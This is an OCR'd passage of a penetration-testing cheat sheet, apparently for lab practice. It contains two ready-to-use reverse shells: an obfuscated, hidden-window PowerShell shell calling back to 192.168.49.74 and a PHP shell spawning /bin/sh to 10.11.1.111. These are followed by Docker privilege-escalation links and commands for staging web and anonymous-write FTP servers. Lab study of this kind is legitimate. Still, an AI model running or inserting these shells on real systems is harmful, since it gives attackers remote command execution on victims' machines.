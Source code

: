 ```bash
powershell -NoP -NonI -W Hidden -Exec Bypass "& {$ps=$false;$hostip='192.168.49.74';$port=445;$client = New-Object System.Net.Sockets.TCPClient($hostip,$port);$stream = $client.GetStream();[byte[]]$bytes = 0..50000|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$cmd=(get-childitem Env:ComSpec).value;$inArray=$data.split();$item=$inArray[0];if(($item -eq '$ps') -and ($ps -eq $false)){$ps=$true}if($item -like '?:'){$item='d:'}$myArray=@('cd','exit','d:','pwd' ,'ls','ps','rm','cp','mv','cat');$do=$false;foreach ($i in $myArray){if($item -eq $i){$do=$true}}if($do -or $ps){$sendback=( iex $data 2>&1 |Out-String)}else{$data2='/c '+$data;$sendback = ( &$cmd $data2 2>&1 | Out-String)};if($ps){$prompt='PS ' + (pwd).Path}else{$prompt=(pwd).Path}$sendback2 = $data + $sendback + $prompt + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"

# PHP most simple Linux
<?php $sock = fsockopen("10.11.1.111",1234); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);?>
```

## **Privilege escalation**

### Common

```
# Docker
https://www.notsosecure.com/anatomy-of-a-hack-docker-registry/

https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout

https://gtfobins.github.io/gtfobins/docker/

# Docker Escape 

Proving Grounds Sirol / Peppo
```

#### Set up Webserver

```bash
python -m SimpleHTTPServer 8080

python3 -m http.server 8080

php -S 0.0.0.0:8080

ruby -run  -e -httpd . -p 8080

https://github.com/sc0tfree/updog
updog
```

#### Set up FTP Server

```bash
# Install pyftpdlib
pip install pyftpdlib

# Run (-w flag allows anonymous write access)
python -m pyftpdlib -p 21 -w
```
